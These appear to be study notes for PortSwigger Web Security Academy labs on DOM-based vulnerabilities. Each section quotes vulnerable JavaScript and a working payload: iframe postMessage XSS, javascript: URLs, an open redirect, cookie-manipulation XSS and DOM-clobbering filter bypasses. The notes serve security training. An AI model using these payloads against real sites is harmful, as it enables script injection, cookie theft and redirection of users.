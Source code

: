  **DOM XSS using web messages**


Vulnerable line

```
<script>
    window.addEventListener('message', function(e) {
      eval(e.data);
    });
</script>
```

Event intended to serve ads but we can insert  a script using onload to print

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

From <https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages> 

**DOM XSS using web messages and a JavaScript URL**
Vulnerable script

```
<script>
  window.addEventListener('message', function(e) {
      var url = e.data;
      if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
          location.href = url;
      }
  }, false);
</script>
```



Exploit

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8a21a7f7-d44c-4823-a8d6-e94af7f1b4ff)


**DOM XSS using web messages and JSON.parse**
Vulnerable load-channel 
Load url we can exploit using iframe

```
<script>
  window.addEventListener('message', function(e) {
      var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
      document.body.appendChild(iframe);
      try {
          d = JSON.parse(e.data);
      } catch(e) {
          return;
      }
      switch(d.type) {
          case "page-load":
              ACMEplayer.element.scrollIntoView();
              break;
          case "load-channel":
              ACMEplayer.element.src = d.url;
              break;
          case "player-height-changed":
              ACMEplayer.element.style.width = d.width + "px";
              ACMEplayer.element.style.height = d.height + "px";
              break;
      }
  }, false);
```


Exploit 

```
<iframe src=https://0a3d006f04a506c781ee8a2b00ec001b.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

**DOM-based open redirection**

Open redirection vulnerability  

  ```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```



Exploit 
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/

From <https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection> 

**DOM-based cookie manipulation**
Exploitable code

   ```
<script>
                            document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
     </script>
```

This script stores the current page by URL in the cookie
Exploit

```
<iframe src="https://0a3b006503c790c3802976a800ab00ef.web-security-academy.net/product?productId=1#'%3E%3Csvg/onload=alert(document.cookie)%3E" onload="this.src='https://0a3b006503c790c3802976a800ab00ef.web-security-academy.net/'">
```

**Exploiting DOM clobbering to enable XSS**
Exploit
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6e99b420-a9d9-4573-9b47-fdb5713e5a3d)





```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href=”cid:&quot;onclick=alert(1)//”>
```

Our exploit will trigger when we type in a random comment again
**Clobbering DOM attributes to bypass HTML filters**
lab uses the HTMLJanitor library which is vulnerable to DOM clobbering



1. Go to one of the blog posts and create a comment containing the following HTML: 
<form id=x tabindex=0 onfocus=print()><input id=attributes> 
2. Go to the exploit server and add the following iframe to the body: 
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)"> 
Remember to change the URL to contain your lab ID and make sure that the postId parameter matches the postId of the blog post into which you injected the HTML in the previous step. 
3. Store the exploit and deliver it to the victim. The next time the page loads, the print() function is called. 
The library uses the attributes property to filter HTML attributes. However, it is still possible to clobber the attributes property itself, causing the length to be undefined. This allows us to inject any attributes we want into the form element. In this case, we use the onfocus attribute to smuggle the print() function. 
When the iframe is loaded, after a 500ms delay, it adds the #x fragment to the end of the page URL. The delay is necessary to make sure that the comment containing the injection is loaded before the JavaScript is executed. This causes the browser to focus on the element with the ID "x", which is the form we created inside the comment. The onfocus event handler then calls the print() function. 

From <https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters> 


